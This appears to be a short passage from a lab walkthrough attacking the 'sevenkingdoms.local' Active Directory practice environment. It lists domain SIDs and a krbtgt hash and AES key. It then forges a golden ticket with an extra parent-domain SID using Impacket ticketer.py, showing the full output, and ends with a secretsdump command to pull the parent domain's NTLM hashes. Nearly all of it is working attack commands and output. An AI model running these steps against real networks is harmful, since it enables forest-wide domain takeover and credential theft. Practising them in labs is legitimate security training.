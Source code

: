 So, the SIDs are: 

Child Domain: `S-1-5-21-58534182-3680670537-1634125476`
Parent Domain: `S-1-5-21-3848810514-1890589760-83533814`
krbtgt hash: `34b24f1a67d914d8ef876f8bd02f3f0b`
krbtgt aes: `badd865cdb6de2c5ee6e1d2baa1e02ff52b2bee490a90f1ee3d2624ad9aa9580`


`ticketer.py -nthash 34b24f1a67d914d8ef876f8bd02f3f0b -domain-sid S-1-5-21-58534182-3680670537-1634125476 -domain north.sevenkingdoms.local -extra-sid S-1-5-21-3848810514-1890589760-83533814 goldenuser`

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Creating basic skeleton ticket and PAC Infos
/home/kali/.local/bin/ticketer.py:141: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  aTime = timegm(datetime.datetime.utcnow().timetuple())
[*] Customizing ticket for north.sevenkingdoms.local/goldenuser
/home/kali/.local/bin/ticketer.py:600: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  ticketDuration = datetime.datetime.utcnow() + datetime.timedelta(hours=int(self.__options.duration))
/home/kali/.local/bin/ticketer.py:718: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encTicketPart['authtime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
/home/kali/.local/bin/ticketer.py:719: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encTicketPart['starttime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
/home/kali/.local/bin/ticketer.py:843: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encRepPart['last-req'][0]['lr-value'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in goldenuser.ccache
```



Parent domain NTDS
`secretsdump -k -no-pass -just-dc-ntlm north.sevenkingdoms.local/goldenuser@kingslanding.sevenkingdoms.local   `

